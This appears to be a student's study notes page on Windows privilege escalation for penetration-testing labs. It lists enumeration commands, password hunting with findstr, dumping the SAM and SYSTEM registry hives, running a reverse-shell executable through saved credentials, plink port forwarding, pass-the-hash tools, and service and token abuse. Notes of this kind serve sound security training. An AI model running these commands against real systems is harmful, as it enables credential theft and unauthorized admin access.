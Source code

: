 ```yaml
---
description: >-
  at the end of the day, you have to picture the way. these tools can only guide
  you so much
---
```


# Windows PrivEsc

HKCU - Current User\
HKLM - Local Machine

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}
Whole picture + Weak Services
{% endembed %}

{% embed url="https://benheater.com/thm-windows-privesc/" %}
No nonsense - straight to business
{% endembed %}

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/" %}
Weak Registry
{% endembed %}

Host file -`C:\Windows\System32\drivers\etc\hosts`

## Commands

### Basic Info gathering

```
systeminfo - (look for latest hotfixes patched)
wmic qfe - check patch history (wmi - windows management instrumentation command line quick fix engineering)
wmic logicaldisk get caption,description,providername

findstr /B /C "string" - grep basically
icacls - ACL to files/directories
where /R c:\windows bash.exe

dir /R [Watch out for ADS (Alternate data streams) - good way to hide data]
dir  /A:H (ls -la of cmd.exe)
ls -force (ls -la of powershell)
```

### User Enumeration

```
whoami /priv /groups
net user (lists users on system)
net user $username - lists all relavant info of that user
net localgroup $groupname
```

### Network Enumeration

```
ipconfig
arp -a
netstat -ano 
```

### Password Hunting (Can automate)

```
findstr "/si password *.txt (look for string "password" in any txt file) 
```

### AV Enumeration

```
sc query windefend
sc query <query> see what services are running
netsh advfirewall firewall dump
netsh firewall show state/config
```

## Automated Enumeration

#### GO TO

* winPEAS.exe
* PowerUp.ps1
* SharpUp.exe
* Rubeus.exe
* Certify.exe

#### TO BE SOON

* Seatbelt.exe
* Watson.exe
* Sherlock.ps1
* jaws-enum.ps1
* windows-exploit-suggester.py

Sherlock looks for a set of CVEs most famous

## Passwords and Port Forwarding

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

Password exploits

*   Saved creds

    ```
    cmdkey /list
    runas /savecred /user:username C:\PrivEsc\reverse.exe
    ```
* Registry - The registry can be searched for keys and values that contain the word "password":
*   SAM (Security Account Manager)\
    SAM and SYSTEM can be found at `Windows/System32/config`

    ```
    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system
    ```
* Pass the hash - if `psexec` don't work, `smbexec.py` (half shell) or `wmiexec`

## Service Exploits

* Insecure Service Permissions
* Unquoted Service Path&#x20;
* Weak Registry Permissions (If writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc #check perms
sc qc daclsvc
```

## WSL

not sure if i need it at this point in time so do come back and check up

## Token Impersonation

like cookies for your computer

* Delegate - created for logging into machine or RDP
* Impersonate - "non-interactive" such as attaching network drive or domain login script&#x20;

```
whoami /priv 
```

msfvenom to generate powershell payload, check how to do it wo meterpreter tho

**getsystem** - Magic way to become Admin, DO NOT SPAM

3 methods

* Named Pipe impersonation (In memory/admin)
* Named Pipe impersonation (Dropper/admin) - most risky, will be flagged by AV cus inserting dll into disk
* Token Impersonation (In memory/admin) - Needs SeDebugPriveleges

## Kernel Exploits

Most basic zero skill vector - this why make sure your systems are always updated

windows-exploit-suggester.py does bitsss (update db before using tho, run locally: feed it systeminfo data and it will run it against its db)

it has exploits for diff builds of windows

MS10-059 and others very popular: focus on privelege escalation vulns mentioned&#x20;

## Further ones to watch

* Executable Files - \[Ben `AlwaysInstallElevated`]
* Startup Applications - \[Ben `Autorun`]
* DLL Hijacking - \[Ben DLL]

